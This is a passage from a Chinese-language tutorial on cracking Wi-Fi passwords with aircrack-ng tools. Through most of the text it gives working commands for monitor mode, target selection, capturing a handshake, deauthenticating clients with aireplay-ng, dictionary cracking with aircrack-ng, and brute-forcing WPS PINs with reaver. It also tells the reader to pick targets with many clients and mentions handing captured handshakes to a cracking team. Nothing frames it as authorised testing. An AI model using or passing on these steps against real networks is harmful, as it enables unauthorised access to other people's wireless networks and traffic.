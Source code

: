 意思是启动网卡的监听模式.敲完这条命令后设备名 wlan=mon0 一般命令后都是要跟上设备名

images:  072e24571d52ca923e045a8b771c3570f2209aa5.jpg

```
Airodump-ng mon0 

```

在抓包前肯定是要先选择目标.这条命令的意思是探测无线网络.选好目标,首选是客户端连接多的.复制好BSSID即MAC地址.记住信道（CH）

images:  86c28913846fa6882f93dc8f1f9055ed198161c9.jpg

```
Airodump-ng -c 1 --bssid XX:XX:XX:XX:XX -w mobi mon0

```

`-C`参数是选择目标信道.如果该信道就目标一个AP使用的话不用加上`--bssid`,这个参数是为了跟精准的锁定目标~~`-w`是保存握手包的名字.获取后会在当前目录生成一个`mobi-01.cap`的握手包。这时就不用关闭这条shell而是另外打开一个shell

images:  be8cea01c23651d3078c38884c06651a4a44c779.jpg

```
Aireplay-ng -0 10 -a (AP的mac) -c (客户端的mac) 

```

> -0参数是发起deauth攻击.10 是次数可以调节
> 
> -a 即第一条shell中BSSID.下面的AP路由器MAC地址
> 
> -c 即STATION下客户机的MAC地址(这条为可选项)

images:  31d0eee9098036a6c978a34f7fe0b1cf1b453f77.jpg

```
Aircrack-ng -w /pentest/passwords/sxsx.lst mobi-01.cap

```

`-w`选择字典`mobi-01.cap`即抓到的握手包

Ps：我是不建议自己跑密码的.我直接挂载u盘吧握手包copy到u盘里在.通过QQ方式吧包发给跑包团队. 然后是吧正确密码添加到了我的字典里。才会出现上图（既成功破解后的图）！ 另外是密码使用有一定联系性规律性密码

**破解方案二:利用路由器wps功能漏洞**

Airodump-ng mon0 查看附近无线情况。在MB这行带点的“.”表示能跑出pin码。使用wash -i mon0 -C可查看是否开启了wps功能

images:  0f593c13ac15ae13ef4fcec366650396d97e27db.jpg

```
Reaver -i mon0 -b xx:xx:xx:xx -vv

```

reaver命令参数

> -i 监听后接口名称
> 
> -b 目标mac地址
> 
> -a 自动检测目标AP最佳配置
> 
> -S 使用最小的DH key（可以提高PJ速度）
> 
> -vv 显示更多的非严重警告
> 
> -d 即delay每穷举一次的闲置时间 预设为1秒
> 
> -t 即timeout每次穷举等待反馈的最长时间
> 
> -c 指定频道可以方便找到信号，如-c1 指定1频道，大家查看自己的目标频道做相应修改 （非TP-LINK路由推荐–d9 –t9 参数防止路由僵死
